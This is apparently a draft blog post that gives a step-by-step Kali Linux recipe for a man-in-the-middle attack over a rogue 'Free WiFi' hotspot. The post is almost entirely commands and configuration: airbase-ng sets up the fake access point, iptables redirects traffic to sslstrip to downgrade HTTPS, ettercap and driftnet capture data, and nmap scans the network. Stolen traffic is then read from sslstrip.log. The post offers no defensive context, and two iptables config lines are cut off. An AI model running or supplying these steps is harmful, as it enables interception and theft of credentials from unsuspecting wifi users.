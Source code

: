 ```yaml
---
layout: post
title: Kali Linux Wireless SSL Spoofing
meta: Man-in-the-middle attack
posted: 6-6-2015
category: blog
draft: true
---
```


<h2>Prerequisites</h2>
<code>cd /etc/ettercap</code><br>
<code>cp etter.conf etter.conf.backup</code><br>
<code>nano etter.conf</code>

```
# Set PID numbers to 0
[privs]
ec_uid = 0
ec_gid = 0

# Uncomment Iptables
redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %por$
redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %po$
```

<h2>Configuring Hotspot</h2>

<p>Use the built in Debian hotspot feature.</p>

<code>nano /etc/dhcp/dhcpd.conf</code>

```
authoritative;
default-lease-time 600;
max-lease-time 7200;

subnet 10.0.0.0 netmask 255.255.255.0 {
option routers 10.0.0.1;
option subnet-mask 255.255.255.0;

option domain-name "freewifi";
option domain-name-servers 10.0.0.1;

range 10.0.0.20 10.0.0.50;
}
```

<p>or,</p>


<code>ifconfig wlan0 down</code><br>
<code>ifconfig wlan0 mode monitor</code><br>
<code>ifconfig wlan0 up</code><br>
<code>pkill dhclient</code><br>
<code>airbase-ng -c 11 -e "Free WiFi" wlan0</code>


<hr>


<h2>Setting iptables</h2>

<code>ifconfig at0 10.0.0.1 netmask 255.255.255.0</code><br>
<code>ifconfig at0 mtu 1400</code><br>
<code>route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1</code><br>
<code>echo 1 > /proc/sys/net/ipv4/ip_forward</code><br>
<code>iptables -t nat -A PREROUTING -p udp -j DNAT --to 192.168.1.1</code><br>
<code>iptables -P FORWARD ACCEPT</code><br>
<code>iptables --append FORWARD --in-interface at0 -j ACCEPT</code><br>
<code>iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE</code><br>
<code>iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000</code><br>
<code>dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhclient-eth0.pid at0</code><br>
<code>service isc-dhcp-server start</code><br>
<p>then,</p>
<code>sslstrip -f -p -k 10000</code>

<hr>

<h2>Ettercap at0 Interface</h2>
<code>ettercap -p -u -T -q -i at0</code>

<p>and,</p>

<h2>Running Driftnet</h2>
<code>driftnet -i eth0</code>


<hr>


<h2>Other Useful Commands</h2>

<h3>Discover Network Devices</h3>
<code>netdiscover</code><br>
<p>Nmap with output gateway ip</p>
<code>nmap -sS -O 192.168.1.1/24</code>

<h3>Open a Terminal</h3>
<code>cat sslstrip.log</code>

